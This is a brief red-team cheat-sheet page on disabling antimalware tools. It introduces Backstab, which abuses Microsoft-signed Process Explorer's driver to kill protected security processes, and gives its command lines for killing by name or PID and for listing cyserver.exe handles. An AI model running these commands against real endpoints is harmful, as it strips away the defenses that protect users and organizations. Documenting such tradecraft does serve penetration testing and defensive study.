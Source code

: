 # Disabling AntiMalware Tools

## BackStab

<figure><img src="https://media3.giphy.com/media/xT8qBifoOp1L3cPoeQ/giphy.gif?cid=ecf05e47tz6ig7gg1f47lbbuuhe583s2e31jwlmw63e49d5p&#x26;ep=v1_gifs_search&#x26;rid=giphy.gif&#x26;ct=g" alt="" width="188"><figcaption></figcaption></figure>

{% hint style="info" %}
_Backstab is a tool capable of killing antimalware protected processes by leveraging sysinternals’ Process Explorer (ProcExp) driver, which is signed by Microsoft._
{% endhint %}

{% embed url="https://github.com/Yaxser/Backstab" %}

```powershell
# Windows
# kill process name
backstab.exe -n $name -k

# kill process by PID
backstab.exe -p $pid -k

# list all handles of cyserver
backstab.exe -n cyserver.exe -l		
```
